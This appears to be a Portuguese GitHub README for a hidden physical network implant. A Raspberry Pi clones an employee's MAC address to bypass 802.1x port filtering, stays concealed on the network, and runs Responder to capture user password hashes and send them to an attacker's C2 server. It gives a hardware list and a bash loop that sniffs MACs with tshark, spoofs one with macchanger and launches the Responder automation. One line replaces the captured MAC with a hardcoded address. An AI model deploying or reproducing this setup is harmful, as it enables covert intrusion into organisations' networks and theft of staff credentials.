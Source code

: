 # Projeto

O Objetivo desse projeto visa realizar de forma "automatizada" e "stealth" o bypass da camada de proteção 802.1x PNAC (Filtro de MAC) e iniciar quaisquer scripts/exploits/ferramentas ao ingressar dentro da rede alvo utilizando ferramentas como RaspberryPI3 e um Switch, ambos de fácil acesso para compra.

No cenário proposto, um atacante utilizará a ferramenta + scripts contruidos para realizar o ataque, ao obter acesso local aos cabos de rede referente a rede alvo, basta plugar um computador de um colaborador para clonar seu MAC, e depois o mesmo ingresará na rede, assim rodando as automações, em sequência é recomendável que a caixa seja escondida equanto conectada ao cabo de rede, para que permaneça na rede realizando os ataques.

Para o caso atual, a ferramenta a ser ativada sera o "Responder", o qual terá função de coletar Hashes de usuários na rede e exfiltra-los para um servidor externo (C2).

# Equipamentos

## V1 - RaspberryPi3
* Raspberry PI (recomendável PI3 1GB RAM)
* 1 Cabo microUSB/USB-C (Depende do RaspberryPI)
* Tela Touch RaspberryPI (Recomendável/Não Obrigatório)
* 1 PowerBank (Pequeno)
* Teclado Bluethooth (Recomendável/Não Obrigatório)

## V2 - Pwnagotchi
https://pwnagotchi.ai/
* UPS Lite V1.2 Poder HAT Board (Bateria)
* RaspberryPI ZeroW Dev Board(Solded)
* RaspberryPI ZeroW Ethernet HUB, HUB USB... (Inputs)
* E-Ink Display HAT (Screen)
* Adaptador Wi-FI - USB (SSH)

## Geral
* Switch de rede
* Conversor de energia do Switch para USB
* 2 Cabos de Rede RJ45 (Pequenos/Retrateis) 1metro
* Adaptador RJ45-USB
* 
# Etapas:

## Setup Raspberry
- [ ] kali ISO: https://www.kali.org/docs/arm/raspberry-pi-3/
- [ ] kali LCD Screen
- [ ] Responder as a Service: https://github.com/eep0x10/runAs.service/tree/main
- [ ] Scripts:


start_resp.sh
```
# Reset MAC Address Random
#sudo ifconfig eth1 hw ether $(ethtool -P eth1 | awk '{print $3}') 1>&-

while true;do
echo "[+] Capturando MAC Address, aguarde 10 segundos..."

echo "" > /tmp/captured_mac.txt

sudo tshark -i eth1 -Y "_ws.col.protocol matches \"IGMPv3\"" -T fields -e eth.src -a duration:10 2>&- | sort -u > /tmp/captured_mac.txt
echo "64:1c:67:e6:d8:a0" > /tmp/captured_mac.txt
# Caminho do arquivo de onde ler o valor
arquivo="/tmp/captured_mac.txt"
valor=$(cat "$arquivo" | tr -d '[:space:]')
# Executa o comando macchanger com o valor lido do arquivo
sudo macchanger -m "$valor" eth1 2>&- # Substitua "eth1" pela interface de rede desejada

cd /usr/share/responder
sudo python3 automation.py
done
```

resp-onder.sh
```
cd /usr/share/responder
sudo python3 /usr/share/responder/automation.py
```
